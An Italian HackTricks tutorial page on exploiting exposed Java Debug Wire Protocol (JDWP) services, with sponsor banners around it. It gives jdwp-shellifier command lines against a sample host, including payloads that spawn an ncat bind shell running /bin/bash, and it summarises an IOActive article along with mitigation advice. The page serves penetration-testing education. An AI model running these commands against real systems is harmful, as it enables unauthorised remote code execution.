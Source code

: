 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Setup immediatamente disponibile per la valutazione delle vulnerabilità e il penetration testing**. Esegui un pentest completo da qualsiasi luogo con oltre 20 strumenti e funzionalità che vanno dalla ricognizione alla reportistica. Non sostituiamo i pentester - sviluppiamo strumenti personalizzati, moduli di rilevamento e sfruttamento per restituire loro del tempo per approfondire, aprire shell e divertirsi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Sfruttamento

Lo sfruttamento di JDWP si basa sulla **mancanza di autenticazione e crittografia del protocollo**. Si trova generalmente sulla **porta 8000**, ma sono possibili altre porte. La connessione iniziale viene effettuata inviando un "JDWP-Handshake" alla porta di destinazione. Se un servizio JDWP è attivo, risponde con la stessa stringa, confermando la sua presenza. Questo handshake funge da metodo di fingerprinting per identificare i servizi JDWP sulla rete.

In termini di identificazione del processo, cercare la stringa "jdwk" nei processi Java può indicare una sessione JDWP attiva.

Lo strumento principale è [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). Puoi usarlo con diversi parametri:
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
Ho scoperto che l'uso di `--break-on 'java.lang.String.indexOf'` rende l'exploit più **stabile**. E se hai la possibilità di caricare un backdoor sull'host ed eseguirlo invece di eseguire un comando, l'exploit sarà ancora più stabile.

## Maggiori dettagli

**Questo è un riassunto di [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)**. Controllalo per ulteriori dettagli.

1. **Panoramica di JDWP**:
- È un protocollo binario di rete basato su pacchetti, principalmente sincrono.
- Manca di autenticazione e crittografia, rendendolo vulnerabile quando esposto a reti ostili.

2. **Handshake JDWP**:
- Viene utilizzato un semplice processo di handshake per avviare la comunicazione. Una stringa ASCII di 14 caratteri “JDWP-Handshake” viene scambiata tra il Debugger (client) e il Debuggee (server).

3. **Comunicazione JDWP**:
- I messaggi hanno una struttura semplice con campi come Lunghezza, Id, Flag e CommandSet.
- I valori di CommandSet vanno da 0x40 a 0x80, rappresentando diverse azioni ed eventi.

4. **Sfruttamento**:
- JDWP consente di caricare e invocare classi e bytecode arbitrari, ponendo rischi per la sicurezza.
- L'articolo dettaglia un processo di sfruttamento in cinque passaggi, che coinvolgono il recupero dei riferimenti Java Runtime, l'impostazione di breakpoint e l'invocazione di metodi.

5. **Sfruttamento nella vita reale**:
- Nonostante le potenziali protezioni del firewall, i servizi JDWP sono scopribili e sfruttabili in scenari reali, come dimostrato da ricerche su piattaforme come ShodanHQ e GitHub.
- Lo script di exploit è stato testato contro varie versioni di JDK ed è indipendente dalla piattaforma, offrendo un'affidabile Esecuzione Remota di Codice (RCE).

6. **Implicazioni per la sicurezza**:
- La presenza di servizi JDWP aperti su Internet sottolinea la necessità di revisioni di sicurezza regolari, disabilitando le funzionalità di debug in produzione e configurazioni adeguate del firewall.

### **Riferimenti:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Setup immediatamente disponibile per la valutazione delle vulnerabilità e il pentesting**. Esegui un pentest completo da qualsiasi luogo con oltre 20 strumenti e funzionalità che vanno dalla ricognizione alla reportistica. Non sostituiamo i pentester - sviluppiamo strumenti personalizzati, moduli di rilevamento e sfruttamento per restituire loro del tempo per approfondire, aprire shell e divertirsi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Impara e pratica il Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
